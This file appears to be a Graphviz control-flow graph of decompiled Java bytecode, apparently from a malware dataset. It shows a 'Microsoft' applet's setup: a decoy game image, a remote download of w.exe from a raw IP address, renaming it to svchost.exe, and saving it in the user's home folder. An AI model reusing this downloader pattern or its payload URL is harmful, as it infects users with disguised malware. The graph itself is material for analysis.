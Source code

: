 digraph "" {
    "r0 := @this: Microsoft"
    "load.r r0"
    "r0 := @this: Microsoft"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "virtualinvoke <Microsoft: java.net.URL getDocumentBase()>"
    "load.r r0"->"virtualinvoke <Microsoft: java.net.URL getDocumentBase()>";
    "push \"http://vouchercodes.ca/wp-content/uploads/2009/10/world-of-warcraft.png\""
    "virtualinvoke <Microsoft: java.net.URL getDocumentBase()>"->"push \"http://vouchercodes.ca/wp-content/uploads/2009/10/world-of-warcraft.png\"";
    "virtualinvoke <Microsoft: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "push \"http://vouchercodes.ca/wp-content/uploads/2009/10/world-of-warcraft.png\""->"virtualinvoke <Microsoft: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "fieldput <Microsoft: java.awt.Image image>"
    "virtualinvoke <Microsoft: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"fieldput <Microsoft: java.awt.Image image>";
    "fieldput <Microsoft: java.awt.Image image>"->"load.r r0";
    "push \"http://93.174.94.98/~stuff/wfile/w.exe\""
    "load.r r0"->"push \"http://93.174.94.98/~stuff/wfile/w.exe\"";
    "fieldput <Microsoft: java.lang.String downloadLocation>"
    "push \"http://93.174.94.98/~stuff/wfile/w.exe\""->"fieldput <Microsoft: java.lang.String downloadLocation>";
    "fieldput <Microsoft: java.lang.String downloadLocation>"->"load.r r0";
    "push \"svchost.exe\""
    "load.r r0"->"push \"svchost.exe\"";
    "fieldput <Microsoft: java.lang.String renameTo>"
    "push \"svchost.exe\""->"fieldput <Microsoft: java.lang.String renameTo>";
    "fieldput <Microsoft: java.lang.String renameTo>"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"user.home\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"user.home\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"user.home\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"file.separator\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"file.separator\"";
    "push \"file.separator\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "fieldput <Microsoft: java.lang.String downloadTo>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"fieldput <Microsoft: java.lang.String downloadTo>";
    "fieldput <Microsoft: java.lang.String downloadTo>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <Microsoft: boolean deleteAfterExecute>"
    "push 0"->"fieldput <Microsoft: boolean deleteAfterExecute>";
    "return"
    "fieldput <Microsoft: boolean deleteAfterExecute>"->"return";
}

